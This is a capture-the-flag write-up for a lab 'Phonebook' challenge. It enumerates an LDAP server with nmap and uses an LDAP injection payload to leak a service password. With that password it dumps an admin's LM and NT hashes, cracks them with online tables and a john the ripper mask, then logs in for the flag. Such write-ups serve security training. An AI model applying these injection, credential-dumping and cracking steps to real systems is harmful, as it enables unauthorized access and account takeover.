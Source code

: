 # Phonebook (5)

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition can last several ... who knows ... years?

Your task is to gain access to the application running on [http://phonebook.mysterious-delivery.tcc:40000](http://phonebook.mysterious-delivery.tcc:40000).

May the Packet be with you!

## Hints

- Use VPN to get access to the server.

## Solution

### Web enumeration

If we look at the source code of the page, we can see some interesting information to start with.

![source code](source-code.png)

We found that there is an LDAP server on 10.99.0.121. Let's verify this with nmap.

```
> nmap -p389 10.99.0.121

PORT    STATE   SERVICE
389/tpc open    ldap
```

_Port 389 is default port for LDAP._

There really is an LDAP, let's try to connect to it.

```
> ldapsearch -x -h 10.99.0.121 -p 389 -D "uid=dc=local,dc=tcc"

ldap_bind: Server is unwilling to perform (53)
        additional info: unauthenticated bind (DN with no password) disallowed
```

Unfortunately, we need a password. We have to get it somehow.

### LDAP injection

After several injection attempts using `*)(uid=*))(|(uid=*` worked. This [site](https://book.hacktricks.xyz/pentesting-web/ldap-injection) helped me.

![ldap injection](ldap-injection.gif)

In the gif above we can see the web admin account (`admin2`) and the ldap server account (`ldap_sync`) with password (`gasg35faCasgt%AF`).

### Accessing the LDAP server

We know the password is `gasg35faCasgt%AF`, so let's use it.

```
> ldapsearch -x -h 10.99.0.121 -p 389 -b "dc=local,dc=tcc" -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w gasg35faCasgt%AF > ldap-output.txt
```

In the output file we can find NT and LM password hash of admin2 account.

```
...

# admin2, people, local.tcc
dn: uid=admin2,ou=people,dc=local,dc=tcc
objectClass: inetOrgPerson
objectClass: sambaSamAccount
cn: admin2
givenName: admin
sn: admin2
homePhone: 5452487532
mail: admin2@local.tcc
sambaSID: S-1-5-21-1528920847-3529959213-2887712062
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
uid: admin2
description: Admin account

...
```

### Cracking password hash

#### Cracking LM hash

After checking the LM hash (`48448F207404DB05F3BAC3A9216F6D52`) at [crackstation.net](https://crackstation.net/), we can see a lot of partial matches.

![LM hash partial matches](lm-hash-partial-matches.png)

But why are there so many partial matches for this LM hash, all containing `toostrong`? Well, the answer is the way LM hashes work.

According to [wikipedia](https://en.wikipedia.org/wiki/LAN_Manager#Security_weaknesses), here is a list of LM security weeknesses:

- Password length is limited to a maximum of 14 characters.
- All passwords are converted into uppercase before generating the hash value. (passWord, pAssWORD, pASSWOrd are same as PASSWORD for LM)
- A 14-character password is broken into 7+7 characters and the hash is calculated for each half separately.

From [rainbowtables.it64.com](http://rainbowtables.it64.com/) we can find out that the plaintext of LM hash is `TOOSTRONG.`.

#### Cracking NT hash

We definitely know that part of the password is `TOOSTRONG.`, but there's a catch, **we don't know the case of any character and also the password may actually be longer than only 14 characters.**

In this case we will use [john the ripper](https://github.com/openwall/john) to crack the NT hash (`32644235283BC5561CC7FE4FFFADDAEE`).

After a few attempts with different mask length, I cracked the password, it actually has 18 characters.

```
> john -mask="[tT][oO][oO][sS][tT][rR][oO][nN][gG][pP][aA][sS][sS].[0-9a-Z][0-9a-Z][0-9a-Z][0-9a-Z]" ./nt-hash.txt --format=NT

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
TooStrongPass.2022 (?)
```

The password for web admin (admin2) is `TooStrongPass.2022`.

### Getting flag

We know the login credentials for the web admin, there's not much left, so let's log in.

![log in with web admin credentials and getting flag](getting-flag.gif)

`FLAG{iLcT-HnNF-egs3-mCSN}`
